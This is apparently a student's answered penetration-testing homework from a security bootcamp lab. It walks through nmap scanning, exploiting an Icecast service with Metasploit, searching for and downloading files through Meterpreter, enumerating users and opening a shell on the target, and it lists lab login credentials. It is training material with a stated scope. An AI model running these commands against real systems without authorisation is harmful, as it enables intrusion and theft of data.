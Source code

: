 # Week17-Pen-Test-Report
Week 17 Penetration Testing and Report

## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.
- The CEO claims to have passwords that are long and complex and therefore unhackable.
- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.
- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 
- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders
- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEOâ€™s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
### Instructions
You've been provided full access to the network and are getting ping responses from the CEOâ€™s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:
    - Run the Nmap command that performs a service and version scan against the target.
      
> Answer: sudo nmap -sV 192.168.0.20
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: searchsploit Icecast

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: msfconsole
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: search Icecast
 
   - Run the command to use the Icecast module:
       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.
     > Answer: use 0
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: set RHOSTS 192.168.0.20
(I ran a show options command first just to see what other could be set for the exploit).
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: run (Or, in Jason’s case, exploit)
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: search -f *secretfile*.txt
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:
      > Answer: search -f *recipe*.txt
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:
      > Answer: download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’
 
8. You can also use Meterpreter's local exploit suggester to find possible exploits.
	> run post/multi/recon/local_exploit_suggester
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.
  > Answer: run post/windows/gather/enum_logged_on_users
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: shell
 
C. Run the command that displays the target's computer system information:
   > Answer: systeminfo
---
&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.


